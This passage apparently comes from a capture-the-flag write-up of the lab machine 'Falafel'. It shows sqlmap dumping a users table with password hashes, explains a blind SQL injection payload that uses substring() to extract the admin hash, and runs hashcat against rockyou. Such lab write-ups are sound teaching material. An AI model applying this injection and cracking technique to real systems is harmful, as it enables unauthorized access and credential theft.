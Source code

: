 ```
[08:36:52] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[08:36:52] [INFO] starting 4 processes
[08:36:54] [INFO] cracked password 'juggling' for user 'chris'
Database: falafel
Table: users
[2 entries]
+----+--------+----------+---------------------------------------------+
| ID | role   | username | password                                    |
+----+--------+----------+---------------------------------------------+
| 1  | admin  | admin    | 0e462096931906507119562988736854            |
| 2  | normal | chris    | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) |
+----+--------+----------+---------------------------------------------+

[08:36:56] [INFO] table 'falafel.users' dumped to CSV file '/root/.sqlmap/output/10.10.10.73/dump/falafel/users.csv'
[08:36:56] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.73'

[*] shutting down at 08:36:56

```

##### sqli - what’s going on

So why did that work? Because there’s a different response for wrong password with existing username and wrong password with non-existing username, there is likely a query using just username to the database. With that binary feedback, we can do a blind sql injection, where we don’t get to see the results of the query, but we can ask yes or no questions of the database.

I guess that it looks something like `select * from users where username = '$_POST["username"]'`, and then it checks if there are rows returned. If rows, then check the password (either with another query to the db, or by looking at the data that came back from the username query), and return the
bad password message if it’s wrong, and if no rows, then return the bad username message. (It turns out that the source confirms that’s almost exactly right.)

Since we only get back a true or false, we’ll make use of the `sql` function `substring`, which takes a field name, a starting character (first char is 1, not 0), and a length. So if we set username to be `admin' and substring(password, 1, 1) = '0' -- -`, then we get a true or false as to if the password hash starts with 0. Combining that with our guessed query, it works out to: `select * from users where username = 'admin' and substring(password, 1, 1) = '0' -- '`

Since there are only 16 possible characters in the hash, it’s not hard to brute force over the character set and get the hash back.

[ippsec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) does both the `sqlmap` and manaual sqli in his falafel video this week. It’s definitely worth a watch (like every one of his videos), especially if you are’t clear on this, or want to see if presented differently.

#### hash cracking

`sqlmap already broke Chris’ password for us. I tried hashcat to see if the admin password is brute-force-able, and it’s not, at least with rockyou (though chris’ password is confirmed):

```

root@kali# hashcat -a 0 -m 0 sql-md5.hashes /usr/share/wordlists/rockyou.txt --force --outfile sql-md5.cracked
...
root@kali# cat sql-md5.cracked
d4ee02a22fc872e36d9e3751ba72ddc8:juggling

```
